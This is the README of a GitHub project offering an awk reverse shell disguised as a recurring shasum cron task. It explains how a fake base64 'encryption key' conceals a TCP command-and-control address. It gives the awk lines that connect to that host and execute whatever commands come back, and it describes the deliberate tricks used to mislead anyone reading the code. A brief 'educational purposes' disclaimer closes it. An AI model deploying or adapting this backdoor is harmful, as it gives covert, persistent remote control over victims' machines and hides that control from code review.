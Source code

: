 # awkwrd

An awk reverse shell.

## Purpose

The `checkrc.awk` command periodically calls out to a remote server and executes its commands. It is disguised as a recurring task to take the shasum of a file (e.g. to track when it is modified).

## Install
Create the main `checkrc.awk` file, encryption key, and cron settings.
```
./install.sh
```

## How it works

Before we dig into the code, we need some background on the encryption key that gets generated.

### The "encryption key"

After running `./install.sh`, a base64-encoded file should be saved to `$HOME/.checkrc/.enc.key`. This looks like a stream of random bytes, but it's actually been carefully crafted to encode an awk-style TCP URI (see [awk Network Programming](https://www.gnu.org/software/gawk/manual/html_node/TCP_002fIP-Networking.html)).

Let's try decoding the file and only reading the even-numbered columns...
```bash
$ base64 -d $HOME/.checkrc/.enc.key | awk '{print $2$4$6$8$10$12$14$16$18$20}'
/inet/tcp/0/localhost/8888
```

### Getting the Host URL
The first few lines of `checkrc.awk` simply read the key we see above, with some indirection around reading the even-numbered columns. As we know, we get a hostname out of this. Meanwhile, the reader believes we have loaded a private key into memory.
```awk
# load key into memory two bytes at a time
("base64 --decode $HOME/.enc.key" | getline)
for (i=2;i<=NF;i+=2) key=key$i
```

### Sending the Request
The entire "HMAC generation" step exists mostly for indirection, except for the print statement. Those familiar with `awk` coprocesses and networking will note that this print statement actually opens a connection to our host above (`localhost:8888`) and sends the text `"starting with key "`.

Our command and control server would be set up to handle this input, while to the reader, this looks like a harmless debug statement.
```awk
# generate hmac of bash profile and save to logfile
print "starting with key " |& key
system(sprintf("openssl dgst -sha1 -hmac %s ~/.bashrc >>$HOME/shasums.txt", key))
```

### Remote Execution
This is the core of the script that reads data from the remote server and executes it. We hide it by talking about traditionally confusing concepts, but it's a difficult part to fully obfuscate (I'm open to suggestions).

```awk
# flush buffers and clean up file descriptors
close(key|&getline)($0|getline)
```

Let's break down what's going on here.
1. `key |& getline` reads a response from the host (`localhost:8888`), and populate the global variable `$0` with the response data.
2. `close()` actually does close the connection
3. `($0 | getline)` executes the received data in a subshell. This could also be accomplished by `system($0)`.

## Remote Server

This client assumes you have a remote server that can issue commands upon request. `server.awk` exists as a test server that sends remote tasks to be executed on the target host upon request. Creating a more configurable server is outside the scope of this project.

## Disclaimer

This project is for educational and research purposes only. The author is not responsible for individuals who misuse these materials for illegal purposes.
